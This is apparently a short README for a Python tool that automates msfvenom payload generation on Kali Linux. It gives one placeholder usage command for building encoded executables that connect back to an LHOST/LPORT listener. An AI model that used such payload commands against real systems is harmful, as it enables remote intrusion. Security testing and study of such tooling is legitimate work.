 # Payload_Generation_Automation_tool
This script automate payload generation process using Msfvenom exploit tool

# Requirement
Os: kalilinux
Programming language : Python3
Env: VM workstation

# Usage
msfvenom -p win_list -a <architecture(x86 or x64)> -e <enocoders> LHOST=<local_ip> LPORT=<local_port> -f <exe or elf or macho >
